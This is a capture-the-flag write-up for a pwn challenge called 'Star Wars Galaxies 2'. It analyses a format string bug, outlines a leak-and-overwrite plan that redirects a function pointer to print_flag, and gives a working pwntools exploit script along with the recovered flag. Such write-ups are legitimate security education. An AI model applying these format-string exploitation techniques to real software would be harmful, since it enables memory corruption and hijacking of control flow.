




# Star Wars Galaxies 2 (pwn)

## analysis
First, we have for choice:  
1. call `create_player` function
1. call `play` function
1. call `view_player` function
2. return

### create_player
In this function, the program asks name, id number, and player class. Then, put them into the structure in stack of main function. I renamed this structure as `player` and edited as below:  


Finally, the program puts a pointer of function to `func` member.

### play
The function of `func` would be called.

### view_player
The string value of `name` are used as arg0 of printf (Format String Bug). Then, `id` is compared with `0xfffffc18` and `boss` which is a global variable is compared with `0x61`. If the result of that comparison is true, the value of `func` would be modified to pointer to `print_flag`.  


## Exploit
We wanna store `0xfffffc18` in `id`. But the negative id would be reject in `create_player`.  



So the plan for the exploit is below (Almost of procedures are needed to use FSB):  
1. Leak the stack address of the structure.
2. Leak the `boss` address.
3. Overwrite `boss` value as `0x61`.
4. Input `0xfc18` as id value, and write `0xffff` to the address of `(char*)&id+2`. 
   1. Then, `func` value is modified to address of `print_flag` automatically. 
5. Call `play` function.

```
def create(name, id_):
    io.sendline("0")
    io.sendlineafter("name: ", name)
    io.sendlineafter("number: ", str(id_))
    io.sendlineafter("class: ", str(0))

def fsb(payload, id_=0):
    create(payload, id_)
    io.sendline("2")
    io.recv()


def exploit():
    create("%7$p,%25$p", 0)
    io.recv()
    io.sendline("2")
    leak = io.recvuntil(",")[0:-1]
    player = int(leak, 16)
    leak = io.recvline()[0:-1]
    boss = int(leak, 16)
    print("player: ", hex(player))
    print("boss: ", hex(boss))

    payload = fmtstr_payload(8, {boss:0x61}, numbwritten=0, write_size="short")
    fsb(payload)
    payload = fmtstr_payload(8, {player+0x82:0xffff}, numbwritten=0, write_size="short")
    fsb(payload, 0xfc18)
    io.sendline("1")
```
Flag: `shctf{l00k1ng_f0rw4rd_2_k0t0r_r3m4k3}`